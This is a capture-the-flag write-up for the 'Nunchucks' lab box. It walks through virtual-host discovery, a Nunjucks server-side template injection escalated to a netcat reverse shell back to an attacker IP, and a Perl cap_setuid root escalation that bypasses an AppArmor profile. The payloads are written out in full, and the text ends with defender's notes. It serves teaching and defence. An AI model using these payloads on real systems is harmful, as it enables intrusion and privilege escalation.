

Nunchucks is a Linux box built around two tidy lessons. The foothold is a server-side template injection in a Node.js app using the Nunjucks engine, reached only after finding the right virtual host. The root is a neat Linux-capabilities puzzle: Perl carries the setuid capability, and the AppArmor profile meant to contain it has a scoping gap that a script — rather than the binary — slips straight through.
Attack chain at a glance
- Recon — SSH/HTTP/HTTPS; the site redirects to
nunchucks.htb; astorevirtual host is hidden behind theHostheader. - Foothold — SSTI in the store sign-up (Nunjucks), confirmed with
{{7*7}}, escalated to RCE and a reverse shell asdavid; user flag. - Root —
/usr/bin/perlhascap_setuid+ep; a Perl script evades the AppArmor profile that confines the Perl binary, so a setuid payload drops a root shell.
Reconnaissance
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.122 | grep ^[0-9] | cut -d / -f1 | paste -sd,)
nmap -sC -sV -p$ports 10.10.11.122
22/tcp open ssh OpenSSH 8.2p1 Ubuntu
80/tcp open http nginx 1.18.0
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open ssl/http nginx 1.18.0
| ssl-cert: Subject: commonName=nunchucks.htb
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
|_http-title: Nunchucks - Landing PageThe redirect and the TLS certificate both name nunchucks.htb, so add it to /etc/hosts. The landing page itself is static, so the useful attack surface is almost certainly on another virtual host. Fuzz the Host header:
echo "10.10.11.122 nunchucks.htb" | sudo tee -a /etc/hosts
ffuf -u https://FUZZ.nunchucks.htb/ -H "Host: FUZZ.nunchucks.htb" \
-w /usr/share/seclists/Discovery/Web-Content/common.txt
store [Status: 200, Size: 4029, Words: 1053, Lines: 102]Add store.nunchucks.htb. The store has a “notify me” sign-up form that echoes your email address back into the response — any time user input is reflected into a page that a server-side template renders, think template injection before XSS.
Foothold — Nunjucks SSTI
The canonical SSTI probe is a maths expression in template syntax. If {{7*7}} comes back as 49, the input is being evaluated by the engine rather than treated as text:
{{7*7}} renders as 49 — the email field is evaluated server-side.The TLS certificate's nunchucks.htb branding and the Node.js stack point at Nunjucks, Mozilla's templating engine. Nunjucks runs in a sandbox, but it is well known that the sandbox can be escaped by reaching back to the Node global object and pulling in child_process. A good reference payload is the one shipped as a nuclei template (node-nunjucks-ssti); dropped into Burp Repeater against the JSON API, it reads files first to prove impact:

With file read proven, swap the command for a reverse shell. The payload walks range.constructor (a Function constructor) to execute a child_process call that builds a named-pipe reverse shell:
# start the listener first: nc -lvnp 4444
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.23 4444 > /tmp/f')\")()}}"}The connection returns as david. Stabilise the TTY and read the user flag:
david@nunchucks:~$ script /dev/null bash
david@nunchucks:~$ cat user.txtRoot — Perl setuid capability vs. AppArmor
Linux capabilities split the old monolithic root privilege into discrete pieces that can be granted to individual binaries. Enumerate which binaries carry any:
getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+epcap_setuid+ep on Perl means Perl can call setuid(0) and become root without being SUID-root. The GTFOBins one-liner proves it — but reading the flag directly is blocked:
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /root/root.txt";'
cat: /root/root.txt: Permission DeniedWe are root, yet denied — the sign of mandatory access control layered on top of the discretionary model. The block is an AppArmor profile pinned to the Perl binary:
cat /etc/apparmor.d/usr.bin.perl
/usr/bin/perl {
#include <abstractions/base>
capability setuid,
deny owner /etc/nsswitch.conf r,
deny /root/* rwx,
deny /etc/shadow rwx,
/usr/bin/id mrix,
/usr/bin/ls mrix,
/usr/bin/cat mrix,
/usr/bin/whoami mrix,
/opt/backup.pl mrix,
owner /home/ r,
owner /home/david/ r,
}The profile denies /root/* and whitelists only a handful of binaries Perl may exec. But AppArmor attaches a profile to a named executable path. Running /usr/bin/perl -e '...' on the command line is confined; executing a Perl script file by its shebang is a different code path and, as profiled here, does not inherit the usr.bin.perl restrictions. So move the identical setuid payload into a script:
The lesson is the AppArmor scoping gap, not the payload: confine the behaviour (a transition/pix profile that follows Perl into child executions), not just the one invocation path. The payload itself is the standard GTFOBins capability escape.
cat > /tmp/exploit.pl << 'EOF'
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
EOF
chmod +x /tmp/exploit.pl
/tmp/exploit.pl
root@nunchucks:/tmp# whoami
root
root@nunchucks:/tmp# cat /root/root.txtDefender's notes
- Never render untrusted input through a server-side template; pass user data as template variables, not as part of the template string. Keep engine sandboxes updated and do not rely on them as a security boundary (the root of SSTI).
- Avoid granting
cap_setuidto general-purpose interpreters — it is equivalent to SUID-root. Prefer narrowly scoped helpers. - When using AppArmor to contain an interpreter, confine its child executions too; a profile on the binary that is bypassed by script invocation gives false assurance.